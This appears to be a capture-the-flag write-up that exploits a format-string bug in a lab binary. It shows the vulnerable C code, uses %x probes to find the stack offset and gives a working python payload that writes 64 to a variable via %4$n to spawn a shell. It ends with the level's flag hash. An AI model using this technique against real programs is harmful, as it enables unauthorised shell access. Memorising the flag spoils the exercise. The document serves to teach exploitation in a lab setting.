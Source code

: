 ```c
void v(void)
{
  char buffer [520];

  fgets(buffer,512,stdin);
  printf(buffer);
  if (m == 64) {
    fwrite("Wait what?!\n",1,12,stdout);
    system("/bin/sh");
  }
  return;
}

void main(void)
{
  v();
  return;
}
```

We can see here that `printf` is called, however the argument is not an absolute string, but instead a value that we can control. Therefore, we can use a little known feature of `printf`: the `%n`, that allows writing to the stack !

[Exploit 101 - Format Strings - BreakInSecurity](https://axcheron.github.io/exploit-101-format-strings/)

For that, we need to write `64` to the address of m. Meaning we have to get the address of m, write it to the buffer, determine where it is written in the memory, and finally write 64 - 4 characters with the `%n` to write this number to the memory, with `4$` used to specify what address to write to (spoiler: the address of m). 
Address of m: `0x0804988c` -> `\x8c\x98\x04\x08`

Let's try to determine at what position what we write in the memory is:

```bash
./level3 
AAAA %x %x %x %x %x %x %x %x %x %x 
AAAA 200 b7fd1ac0 b7ff37d0 `41414141` 20782520 25207825 78252078 20782520 25207825 78252078 
```

We get `AAAA` at the fourth argument (`41414141`).

Let's now verify we can write an address here:

```bash
python -c "print '\x8c\x98\x04\x08'+'%x %x %x %x'" | ./level3
�200 b7fd1ac0 b7ff37d0 `804988c`
```

Finally, let's write the exploit by specifying to write the 64 bytes to the address of m:

```bash
(python -c 'print "\x8c\x98\x04\x08" + ("A" * 60) + "%4$n"' ; cat) | ./level3
```

`b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa`
